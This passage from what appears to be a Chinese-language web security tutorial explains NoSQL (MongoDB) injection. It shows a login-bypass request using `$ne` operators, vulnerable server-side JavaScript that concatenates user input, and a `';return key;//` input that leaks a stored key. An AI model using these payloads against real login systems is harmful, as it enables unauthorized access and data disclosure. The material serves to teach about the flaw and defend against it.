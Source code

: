 2.  注入过程

以用户身份验证为例，POST 请求：

`username=test&password=123456`

后端程序语言，我们希望是这样的：

`db.users.find({username: 'test', password: '123456'})`

因此，我们可以构造如下请求：

`username[$ne]=1&password[$ne]=1`

实际后端程序运行：

`db.logins.find({username:{$ne:1}, password:{$ne:1}})`

类比传统 SQL 语句：

`select * from logins where username <> 1 and password <> 1`

### [](#143-%E6%B3%A8%E5%85%A5%E5%8E%9F%E7%90%86%E4%BA%8C)14.3 注入原理二

如果在编程语言中不够谨慎，也可能产生像 sqli 注入那样的截断问题，但是这是在程序语言中而非 SQL 语句中：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```javascript<br>$script= "try{<br>	var key = db.users.find({username: 'test'}).value;<br>	var inputValue = '".$input."';<br>	if(key == inputValue) {<br>		return('match');<br>}}";<br>``` |

当输入 `';return key;//` -> `var inputValue='';return key;//'`，导致 inputValue 为空，直接返回 key 字段
